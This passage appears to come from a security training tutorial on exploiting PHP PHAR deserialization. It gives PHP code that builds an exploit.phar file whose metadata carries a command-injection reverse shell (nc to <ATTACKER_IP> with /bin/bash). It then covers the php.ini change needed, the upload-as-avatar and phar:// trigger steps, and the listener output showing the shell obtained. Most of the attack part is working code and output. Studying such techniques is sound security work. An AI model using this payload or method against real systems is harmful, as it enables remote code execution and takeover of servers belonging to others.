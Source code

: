 ```php
<?php
include('UserSettings.php');

$phar = new Phar("exploit.phar");

$phar->startBuffering();

$phar->addFromString('0', '');
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->setMetadata(new \App\Helpers\UserSettings('"; nc -nv <ATTACKER_IP> 9999 -e /bin/bash;#', '[email protected]', '$2y$10$u5o6u2EbjOmobQjVtu87QO8ZwQsDd2zzoqjwS0.5zuPr3hqk9wfda', 'default.jpg'));

$phar->stopBuffering();

```

In this file, we will generate a `PHAR` archive named `exploit.phar`, and set the `metadata` to our command injection payload from the last section. Running this should generate `exploit.phar` in the same directory, but you may run into the following error:

```
PHP Fatal error:  Uncaught UnexpectedValueException: creating archive "exploit.phar" disabled by the php.ini setting phar.readonly in XXXXX
Stack trace:
#0 XXXXX: Phar->__construct()
#1 {main}
  thrown in XXXXX on line XX

```

If you get this error, modify `/etc/php/7.4/cli/php.ini` like so and then run it again:

```ini
[Phar]
; phar.readonly = On
phar.readonly = Off

```

Once we have generated the `exploit.phar` archive, we can upload it as our profile picture.

With the file uploaded, we can copy the image link and prepend the `phar://` wrapper like this: `http://SERVER_IP:8000/image?_=phar://uploads/MD5.jpg`. When we visit this link, the server will call `file_exists('phar://uploads/MD5.jpg'),` and the metadata should be `deserialized`.

Starting a local Netcat listener and browsing to the link results in a reverse shell:

```shell
nc -nvlp 9999

Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 127.0.0.1.
Ncat: Connection from 127.0.0.1:57208.
ls -l
total 24
drwxr-xr-x 2 kali kali 4096 Oct 19 21:38 css
-rw-r--r-- 1 kali kali 5963 Oct 19 21:35 default.jpg
-rw-r--r-- 1 kali kali    0 Oct 19 21:39 favicon.ico
-rw-r--r-- 1 kali kali 1710 Apr 12  2022 index.php
-rw-r--r-- 1 kali kali   24 Apr 12  2022 robots.txt
drwxr-xr-x 2 kali kali 4096 Oct 19 22:47 uploads

```

